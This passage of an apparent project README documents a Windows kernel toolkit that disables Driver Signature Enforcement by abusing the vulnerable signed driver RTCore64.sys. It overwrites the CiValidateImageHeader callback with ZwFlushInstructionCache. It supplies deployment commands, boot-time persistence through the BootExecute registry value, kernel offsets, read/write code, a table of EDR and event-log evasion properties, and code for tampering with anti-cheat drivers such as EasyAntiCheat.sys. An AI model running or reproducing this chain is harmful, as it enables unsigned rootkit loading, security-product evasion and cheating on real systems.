        RtlCopyMemory(DstAddr, buf, Size);
        KeUnstackDetachProcess(&apc);
        attached = FALSE;
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        status = GetExceptionCode();
        if (attached) KeUnstackDetachProcess(&apc);
    }

    if (buf) ExFreePoolWithTag(buf, POOL_TAG);
    return status;
}
```

**Key Safety Features Explained:**

**1. Process Attachment**
```
KeStackAttachProcess() switches the current thread's address space context
to the target process, making its virtual memory directly accessible.

Benefits:
- No need for physical memory translation
- Automatic TLB management
- Safe paging semantics
- Correct permission checking
```

**2. Exception Handling**
```
__try/__except blocks catch access violations, page faults, and other
exceptions that would otherwise cause system crashes (BSOD).

Protected operations:
- Memory probing (invalid addresses)
- Memory copying (pagefile-backed memory)
- Process attachment (exiting processes)
```

**3. Memory Probing**
```
ProbeForRead/ProbeForWrite validate that addresses are:
- Within valid user-mode range (< 0x7FFFFFFFFFFFFFFF on x64)
- Properly aligned
- Accessible with requested permissions

Prevents:
- Kernel memory access from user-mode pointers
- Misaligned access violations
- Permission violations
```

#### IOCTL Interface Design

**Command Structure:**
```c
typedef struct _KERNEL_READWRITE_REQUEST {
    ULONG ProcessId;        // Target process identifier
    ULONG_PTR Address;      // Virtual address in target process
    ULONG_PTR Buffer;       // Buffer in caller's process
    SIZE_T Size;            // Transfer size (max: 16KB)
    BOOLEAN Write;          // Direction: FALSE=read, TRUE=write
    NTSTATUS Status;        // Operation result (output)
} KERNEL_READWRITE_REQUEST, *PKERNEL_READWRITE_REQUEST;
```

**IOCTL Codes:**
```
IOCTL_READWRITE_DRIVER_READ  = 0x80000000 | (0x800 << 2) | METHOD_BUFFERED
IOCTL_READWRITE_DRIVER_WRITE = 0x80000000 | (0x801 << 2) | METHOD_BUFFERED
```

**User-Mode API Example (from OmniUtility.cpp):**
```cpp
NTSTATUS ReadMemory(DWORD pid, LPVOID address, LPVOID buffer, SIZE_T size) {
    if (g_driver == INVALID_HANDLE_VALUE) 
        return STATUS_INVALID_HANDLE;
    
    MemoryRequest req{};
    req.processId = pid;
    req.address = reinterpret_cast(address);
    req.buffer = reinterpret_cast(buffer);
    req.size = size;
    req.write = FALSE;
    
    DWORD returned;
    DeviceIoControl(g_driver, IOCTL_READ, &req, sizeof(req), 
                   &req, sizeof(req), &returned, nullptr);
    
    return req.status;
}
```

## 🚀 Quick Start

### Prerequisites Verification

Before deployment, ensure the following requirements are met:
```powershell
# Check Windows version
winver
# Required: Windows 11 25H2
Note: Kernel offsets in drivers.ini are specific to Windows 11 25H2. For other versions, extract new offsets from ntkrnlmp.pdb using Microsoft Symbol Server

# Verify architecture
wmic os get osarchitecture
# Required: 64-bit

# Check current privilege level
whoami /groups | findstr "S-1-16-12288"
# Must show "High Mandatory Level" (Administrator)

# Check test signing status (optional - not required)
bcdedit /enum {current} | findstr "testsigning"
```

### Method A: Boot-Time Deployment (Recommended for Persistent Use)

This method installs BootBypass into the system's boot sequence, providing automatic DSE bypass on every system start.

**Step 1: Prepare Required Files**

Ensure the following files are in the same directory:
```
KernelResearchKit/
├── implementer.bat
├── implementer.ps1
├── BootBypass.exe
├── RTCore64.sys
└── drivers.ini
```

**Step 2: Execute Deployment Script**
```cmd
REM Right-click implementer.bat → Run as Administrator
implementer.bat
```

**Interactive Deployment Flow:**


**Step 3: System Reboot**

After successful deployment:
```cmd
shutdown /r /t 0
```

**Step 4: Verify Deployment (After Reboot)**

Check if DSE bypass is active:
```powershell
# Check if BootBypass was executed
# Look for state file modifications
Get-ItemProperty C:\Windows\drivers.ini | Select-Object LastWriteTime

# Verify OmniDriver is loaded (if configured in drivers.ini)
sc query omnidriver
# Expected: STATE = 4 RUNNING
```

**Deployment Details:**

The `implementer.ps1` script performs the following operations:

1. **File Validation**: Verifies presence of required files in current directory
2. **Existing Installation Check**: Detects previous deployments
3. **File Deployment**:
   - `BootBypass.exe` → `C:\Windows\System32\BootBypass.exe`
   - `RTCore64.sys` → `C:\Windows\System32\drivers\RTCore64.sys`
   - `drivers.ini` → `C:\Windows\drivers.ini`
4. **Registry Backup**: Creates timestamped backup of BootExecute key
5. **Registry Modification**: Adds "BootBypass" entry to BootExecute MultiString value
6. **Confirmation**: Displays success message with next steps

**Registry Modification Details:**
```
Key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager
Value: BootExecute
Type: REG_MULTI_SZ

Before:
  autocheck autochk *

After:
  autocheck autochk *
  BootBypass
```

---

### Method B: Runtime Manipulation (For Development and Testing)

This method provides interactive DSE control without system installation, ideal for testing and research scenarios.

**Step 1: Prepare Driver File**

Ensure RTCore64.sys is present in the system drivers directory:
```cmd
copy RTCore64.sys C:\Windows\System32\drivers\
```

**Step 2: Launch drvloader**
```cmd
REM Run as Administrator
drvloader.exe
```

**Interactive Session Flow:**


**Step 3: Operation Selection**

The menu presents three options:

**Option 1: Patch DSE (Disable Driver Signature Enforcement)**
```
[1] Patch DSE (disable driver signature enforcement)

Process:
1. Installing and starting RTCore64 driver...
2. Locating ntoskrnl.exe in kernel memory...
3. Calculating target addresses using PDB offsets...
4. Patching CiValidateImageHeader callback...
5. Cleaning up - stopping and removing driver...

Result: DSE bypassed - unsigned drivers can now be loaded
```

**Option 2: Restore DSE (Re-enable Driver Signature Enforcement)**
```
[2] Restore DSE (re-enable driver signature enforcement)

Process:
1. Installing and starting RTCore64 driver...
2. Locating ntoskrnl.exe in kernel memory...
3. Calculating target addresses...
4. Restoring original CiValidateImageHeader callback...
5. Cleaning up - stopping and removing driver...

Result: DSE restored - driver signature enforcement active
```

**Option 3: Exit**
```
[3] Exit

Performs cleanup and terminates application
```

**Usage Example Session:**
```
============================================
     OmniDriver - Advanced Tool          
       by WESMAR (Educational)           
============================================

[!] WARNING: Educational purposes only!
[!] Requires: Test mode + Administrator

[OK] Kernel driver connected
[OK] System access granted

[=== Checking DSE Status ===]

[+] RTCore64 driver opened successfully
[+] ntoskrnl.exe base: 0xFFFFF80000000000
[+] Current CiValidateImageHeader: 0xFFFFF80000A1B2C0
[+] Safe function address: 0xFFFFF8000069BFD0
[+] DSE Status: ACTIVE (enabled)

=========================================================
                    AVAILABLE OPERATIONS
=========================================================
[1] Patch DSE (disable driver signature enforcement)
[2] Exit
=========================================================

Select option: 1

[=== DSE Bypass - Single Callback Patch ===]

[1/5] Installing and starting RTCore64 driver...
[+] RTCore64 driver opened successfully
[2/5] Locating ntoskrnl.exe in kernel memory...
[+] ntoskrnl.exe base: 0xFFFFF80000000000
[3/5] Calculating target addresses using PDB offsets...
[+] SeCiCallbacks table located at: 0xFFFFF80000F04780
[+] Safe function (ZwFlushInstructionCache) at: 0xFFFFF8000069BFD0
[4/5] Patching CiValidateImageHeader callback...
[*] Original CiValidateImageHeader: 0xFFFFF80000A1B2C0
[*] Replacing with safe function: 0xFFFFF8000069BFD0
[+] DSE bypass completed successfully!
[+] CiValidateImageHeader has been replaced with ZwFlushInstructionCache
[+] Unsigned drivers can now be loaded
[5/5] Cleaning up - stopping and removing driver...
[+] System cleanup completed - no driver instances running

[SUCCESS] DSE has been bypassed. You can now load unsigned drivers.
```

---

## 🔬 Technical Deep Dive

### The Vulnerability Primitive: RTCore64.sys

The exploitation chain relies on a vulnerable, signed driver that exposes unrestricted kernel memory access. The RTCore64 driver from Micro-Star International serves as the primary vehicle for this research.

#### Vulnerability Analysis

**IOCTL Handler Structure:**
```c
// Simplified representation of RTCore64 IOCTL handling
NTSTATUS RTCoreDeviceControl(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    PIO_STACK_LOCATION stack = IoGetCurrentIrpStackLocation(Irp);
    ULONG ioctl = stack->Parameters.DeviceIoControl.IoControlCode;
    PVOID buffer = Irp->AssociatedIrp.SystemBuffer;
    
    RTC_MEMORY_PACKET* packet = (RTC_MEMORY_PACKET*)buffer;
    
    switch (ioctl) {
        case 0x80002048:  // Memory Read
            // Dangerous: No validation of packet->Address
            *(ULONG*)&packet->Value = *(ULONG*)packet->Address;
            break;
            
        case 0x8000204C:  // Memory Write
            // Dangerous: No validation of packet->Address or Value
            *(ULONG*)packet->Address = packet->Value;
            break;
    }
    
    return STATUS_SUCCESS;
}
```

**Critical Vulnerability Properties:**

1. **No Address Validation**: Accepts any 64-bit address, including kernel space
2. **No Privilege Checking**: No verification of caller privileges beyond device open
3. **No Range Restrictions**: Can access entire physical/virtual address space
4. **Signed and Whitelisted**: Valid Microsoft signature, loads without DSE bypass

**Exploitation Mechanics:**

The RTC_PACKET structure precisely matches the driver's expectations:
```c
typedef struct _RTC_PACKET {
    UCHAR pad0[8];      // Padding for structure alignment
    ULONGLONG addr;     // Target kernel address (validated by driver: NONE)
    UCHAR pad1[8];      // More padding
    ULONG size;         // Operation size (driver ignores, always 4 bytes)
    ULONG value;        // Value to read/write
    UCHAR pad3[16];     // Trailing padding
} RTC_PACKET;
```

**Memory Write Operation Flow:**


#### 64-bit Write Decomposition

The vulnerable driver only supports 32-bit operations, requiring decomposition of 64-bit values:
```c
BOOLEAN WriteMemory64(HANDLE hDriver, ULONGLONG address, 
                     ULONGLONG value, ULONG ioctl) {
    // Write low DWORD (bits 0-31)
    if (!WriteMemory32(hDriver, address, 
                      (ULONG)(value & 0xFFFFFFFF), ioctl))
        return FALSE;
    
    // Write high DWORD (bits 32-63)
    if (!WriteMemory32(hDriver, address + 4, 
                      (ULONG)((value >> 32) & 0xFFFFFFFF), ioctl))
        return FALSE;
    
    return TRUE;
}
```

**Atomic Write Consideration:**

This two-step write is **not atomic**. Between the low and high DWORD writes, the pointer contains an invalid intermediate value:
```
Original:  0xFFFFF80000A1B2C0  (Valid CiValidateImageHeader)
After Low: 0xFFFFF800006BFD0  (Invalid - low 32 bits of ZwFlushInstructionCache)
After High: 0xFFFFF8000069BFD0  (Valid ZwFlushInstructionCache)
```

However, this is safe because:
1. **No concurrent CI operations**: Patching occurs before driver loading attempts
2. **Interrupt safety**: Both writes occur at PASSIVE_LEVEL
3. **Cache coherency**: x64 write ordering guarantees visibility

---

### Kernel Address Space Layout and Offset Calculation

The framework relies on hardcoded offsets derived from public symbol files (PDB). Understanding the address calculation is crucial for adapting to different kernel versions.

#### Symbol Resolution Process

**Step 1: Obtain ntoskrnl.exe Base Address**

At runtime, the kernel is loaded at a randomized base address (KASLR):
```c
ULONGLONG GetNtoskrnlBase(void) {
    UCHAR stackBuffer[0x10000];
    ULONG returnLength;
    
    // Query loaded kernel modules
    NtQuerySystemInformation(SystemModuleInformation, 
                            stackBuffer, 
                            sizeof(stackBuffer), 
                            &returnLength);
    
    SYSTEM_MODULE_INFORMATION* moduleInfo = 
        (SYSTEM_MODULE_INFORMATION*)stackBuffer;
    
    // First module is always ntoskrnl.exe
    for (ULONG i = 0; i < moduleInfo->Count; i++) {
        char* imageName = moduleInfo->Modules[i].ImageName + 
                         moduleInfo->Modules[i].ModuleNameOffset;
        
        if (strcmp(imageName, "ntoskrnl.exe") == 0) {
            return (ULONGLONG)moduleInfo->Modules[i].ImageBase;
        }
    }
    
    return 0;
}
```

**Example Output:**
```
ntoskrnl.exe base: 0xFFFFF80000000000 (KASLR randomized)
```

**Step 2: Add Static Offsets from PDB**

The `drivers.ini` file contains offsets extracted from Microsoft's public symbols:
```ini
[Patch1]
Action=PATCH_DSE
Offset_SeCiCallbacks=0xF04780      # SeCiCallbacks table offset
Offset_Callback=0x20                # CiValidateImageHeader slot offset
Offset_SafeFunction=0x69BFD0        # ZwFlushInstructionCache offset
```

**Offset Extraction Example (WinDbg):**
```
kd> x nt!SeCiCallbacks
fffff800`00f04780 nt!SeCiCallbacks = <no type information>

kd> dq nt!SeCiCallbacks L8
fffff800`00f04780  fffff800`00a1b000 fffff800`00a1b100
fffff800`00f04790  fffff800`00a1b200 fffff800`00a1b2c0   <- [0x20] CiValidateImageHeader
fffff800`00f047a0  fffff800`00a1b400 fffff800`00a1b500

kd> x nt!ZwFlushInstructionCache
fffff800`0069bfd0 nt!ZwFlushInstructionCache (ZwFlushInstructionCache)
```

**Step 3: Calculate Runtime Addresses**
```c
ULONGLONG ntBase = GetNtoskrnlBase();  // e.g., 0xFFFFF80000000000

ULONGLONG seCiCallbacks = ntBase + 0xF04780;
// = 0xFFFFF80000F04780

ULONGLONG callbackToPatch = seCiCallbacks + 0x20;
// = 0xFFFFF80000F047A0

ULONGLONG safeFunction = ntBase + 0x69BFD0;
// = 0xFFFFF8000069BFD0
```

**Memory Layout Visualization:**
```
Kernel Virtual Address Space:
┌────────────────────────────────────────┐
│ ntoskrnl.exe Base: 0xFFFFF80000000000  │
├────────────────────────────────────────┤
│ ...                                    │
│ .text section (code)                   │
│   ├─ ZwFlushInstructionCache           │
│   │  @ +0x69BFD0                       │
│   │  = 0xFFFFF8000069BFD0              │
│   │                                    │
│   ├─ CiValidateImageHeader (original)  │
│   │  @ +0xA1B2C0                       │
│   │  = 0xFFFFF80000A1B2C0              │
│ ...                                    │
│ .data section (data)                   │
│   ├─ SeCiCallbacks Table               │
│   │  @ +0xF04780                       │
│   │  = 0xFFFFF80000F04780              │
│   │    ├─ [0x00] = Callback 0          │
│   │    ├─ [0x08] = Callback 1          │
│   │    ├─ [0x10] = Callback 2          │
│   │    ├─ [0x18] = Callback 3          │
│   │    ├─ [0x20] = CiValidateImageHeader│ ← TARGET
│   │    │           0xFFFFF80000A1B2C0  │
│   │    │           ↓ PATCH              │
│   │    │           0xFFFFF8000069BFD0  │ ← NEW VALUE
│   │    ├─ [0x28] = Callback 5          │
│   │    └─ [0x30] = Callback 6          │
└────────────────────────────────────────┘
```

---

### ZwFlushInstructionCache: The Perfect Stub

The choice of `ZwFlushInstructionCache` as the replacement callback is not arbitrary. This function possesses unique properties that make it ideal for DSE bypass.

#### Function Signature Analysis

**Original Function (CiValidateImageHeader):**
```c
NTSTATUS CiValidateImageHeader(
    _In_ PVOID ImageBase,
    _In_ SIZE_T ImageSize,
    _In_ ULONG Flags,
    _In_ PIMAGE_INFO ImageInfo,
    _Out_ PULONG ValidationResult
);
```

**Replacement Function (ZwFlushInstructionCache):**
```c
NTSTATUS NTAPI ZwFlushInstructionCache(
    _In_ HANDLE ProcessHandle,
    _In_opt_ PVOID BaseAddress,
    _In_ SIZE_T Length
);
```

#### Calling Convention Compatibility (x64)

On x64 Windows, the Microsoft x64 calling convention dictates:
- **RCX**: First argument
- **RDX**: Second argument
- **R8**: Third argument
- **R9**: Fourth argument
- **Stack**: Additional arguments (5+)

When the kernel invokes the callback pointer at `SeCiCallbacks[0x20]`:
```asm
; Original call (CiValidateImageHeader)
mov rcx, [ImageBase]          ; Arg1: ImageBase
mov rdx, [ImageSize]          ; Arg2: ImageSize
mov r8d, [Flags]              ; Arg3: Flags
mov r9, [ImageInfo]           ; Arg4: ImageInfo
lea rax, [ValidationResult]
mov [rsp+28h], rax            ; Arg5: ValidationResult (stack)
call qword ptr [SeCiCallbacks+20h]

; After patch (ZwFlushInstructionCache)
; Same register setup, but function interprets differently:
; RCX = ProcessHandle (treated as ImageBase pointer - ignored)
; RDX = BaseAddress (treated as ImageSize value - ignored)
; R8  = Length (treated as Flags - ignored)
; Function doesn't validate arguments, just returns STATUS_SUCCESS
```

**Key Insight**: `ZwFlushInstructionCache` doesn't validate its arguments rigorously. It performs basic sanity checks and returns success if the operation is non-critical.

#### Return Value Behavior

**ZwFlushInstructionCache Return Logic:**
```c
NTSTATUS ZwFlushInstructionCache(HANDLE ProcessHandle, 
                                 PVOID BaseAddress, 
                                 SIZE_T Length) {
    // Simplified implementation
    
    if (ProcessHandle == NULL || ProcessHandle == (HANDLE)-1) {
        // Flush current process - always succeeds
        return STATUS_SUCCESS;
    }
    
    // Validate process handle
    PEPROCESS Process;
    NTSTATUS status = ObReferenceObjectByHandle(ProcessHandle, ...);
    if (!NT_SUCCESS(status)) {
        // Invalid handle - but for CI purposes, we don't care
        return STATUS_SUCCESS;  // Still returns success!
    }
    
    // Perform actual flush (or not - non-critical)
    // ...
    
    ObDereferenceObject(Process);
    return STATUS_SUCCESS;
}
```

**Critical Property**: Even with invalid arguments, `ZwFlushInstructionCache` tends to return `STATUS_SUCCESS` rather than failing. This is because instruction cache flushing is often a "best-effort" operation.

#### Consequences for Code Integrity

When a driver load is attempted after the patch:


**System-Wide Impact:**

After patching, the following occur:
1. **Signature Validation Skipped**: `CiValidateImageHeader` never executes
2. **All Validations Pass**: Callback chain returns success
3. **CI State Unchanged**: `g_CiEnabled` remains TRUE
4. **No Event Logs**: No signature validation failures recorded
5. **EDR/AV Blind**: Security products see normal CI activity

**Detection Evasion Properties:**

| Detection Method | Bypass Mechanism |
|------------------|------------------|
| **CI State Flags** | `g_CiEnabled` still TRUE - appears normal |
| **Event Logs** | No 3065/3066 Code Integrity events - validation "passed" |
| **Callback Inspection** | Pointer still in valid kernel memory range |
| **Signature Checks** | Never performed - callback replaced before check |
| **HVCI** | Requires separate disable + reboot (handled automatically) |
| **Kernel Callbacks** | `ObRegisterCallbacks` cannot prevent this technique |
| **Driver Blocklist** | Ineffective - signature not validated |

---

## 🎯 Advanced Capabilities: Kernel-Mode Sovereignty

With DSE successfully bypassed and OmniDriver loaded, the framework achieves complete kernel-mode sovereignty. This section demonstrates the technical capabilities that emerge from unrestricted kernel access.

### Inter-Process Memory Manipulation

OmniDriver provides transparent read/write access to arbitrary process memory spaces, bypassing all user-mode protection mechanisms.

**Technical Foundation:**

The driver operates through process context switching, a privileged operation that user-mode code cannot perform:


**Bypassed Protection Mechanisms:**

| Protection | User-Mode Limitation | Kernel Bypass Method |
|------------|---------------------|----------------------|
| **Process Isolation** | Cannot access other process memory | `KeStackAttachProcess()` switches address space context |
| **Page Protection** | Cannot write to read-only pages | Kernel operates with supervisor privilege, ignores page protection |
| **DEP/NX** | Cannot execute data pages | Can modify page table entries directly or allocate executable memory |
| **ASLR** | Cannot determine load addresses | Can enumerate all process modules via kernel structures |
| **Handle Protection** | Cannot duplicate privileged handles | Can access handle tables directly via `EPROCESS` structure |
| **Protected Processes** | Cannot open protected processes | Kernel code operates above protection level |

### Anti-Cheat System Bypass

Modern anti-cheat systems rely on kernel-mode drivers to protect game integrity. With kernel access, all anti-cheat mechanisms become transparent.

**Anti-Cheat Architecture Limitations:**


**Technical Capabilities Against Anti-Cheat:**

**1. Memory Modification in Protected Processes**

Anti-cheat systems designate game processes as protected. OmniDriver bypasses this:
```cpp
// Example: Modify player health in protected game process
DWORD gamePID = FindProcessByName(L"game.exe");
ULONG_PTR healthAddress = 0x00007FF7A1234568;  // Game-specific offset
int32_t newHealth = 999;

// Direct kernel write - bypasses all protection
NTSTATUS status = WriteMemory(gamePID, 
                              (LPVOID)healthAddress, 
                              &newHealth, 
                              sizeof(newHealth));

// Anti-cheat driver cannot prevent this write
// No callback can intercept kernel-to-kernel memory operations
```

**2. Driver Callback Neutralization**

Anti-cheat drivers register callbacks to monitor system activity. These can be enumerated and removed:
```c
// Enumerate registered callbacks
PVOID* CallbackArray = NULL;
ULONG CallbackCount = 0;

// Locate callback registration structures in kernel memory
// (Simplified - actual implementation requires structure walking)
EnumerateRegisteredCallbacks(&CallbackArray, &CallbackCount);

// Remove specific anti-cheat callbacks
for (ULONG i = 0; i < CallbackCount; i++) {
    PVOID CallbackRoutine = CallbackArray[i];
    
    // Check if callback belongs to anti-cheat driver
    if (IsAntiCheatCallback(CallbackRoutine)) {
        // Unregister callback
        ObUnRegisterCallbacks(CallbackRegistrationHandle);
    }
}
```

**3. Thread Hiding and Execution Masking**

Anti-cheat systems scan for suspicious threads. Kernel access allows thread attribute manipulation:
```c
// Hide thread from anti-cheat enumeration
PETHREAD TargetThread = GetThreadByID(suspiciousThreadID);

// Manipulate thread structure to evade detection
// (Specific techniques vary by Windows version)
THREAD_HIDE_FLAGS flags = *(THREAD_HIDE_FLAGS*)((ULONG_PTR)TargetThread + 0x640);
flags.HideFromDebugger = TRUE;
flags.SystemThread = TRUE;  // Masquerade as system thread

// Anti-cheat enumerates threads but skips system threads
```

**4. Direct Memory Scanning Evasion**

When anti-cheat drivers scan game memory for known cheat signatures:
```cpp
// Technique: Memory Page Remapping
PVOID CheatCodeAddress = AllocateCheatMemory();

// Remap physical page to different virtual address
PHYSICAL_ADDRESS PhysicalAddr = 
    MmGetPhysicalAddress(CheatCodeAddress);

// Create new virtual mapping with clean permissions
PVOID CleanMapping = MmMapIoSpace(PhysicalAddr, 
                                  CheatCodeSize, 
                                  MmCached);

// Anti-cheat scans original address: finds nothing
// Cheat executes from clean mapping: undetected
```

**5. Anti-Cheat Driver Integrity Manipulation**

The most direct approach: modify the anti-cheat driver itself:
```c
// Locate anti-cheat driver in memory
PVOID ACDriverBase = FindDriverByName(L"EasyAntiCheat.sys");

// Patch signature checking routine
PVOID SignatureCheckFunction = ACDriverBase + 0x12345;  // Known offset

// Replace with immediate return TRUE
BYTE patch[] = { 
    0xB8, 0x01, 0x00, 0x00, 0x00,  // mov eax, 1 (TRUE)
    0xC3                            // ret
};

WriteKernelMemory(SignatureCheckFunction, patch, sizeof(patch));

// Anti-cheat now validates all signatures as legitimate
```

### Process and Window Manipulation

The OmniUtility demonstration application showcases practical applications of kernel access.

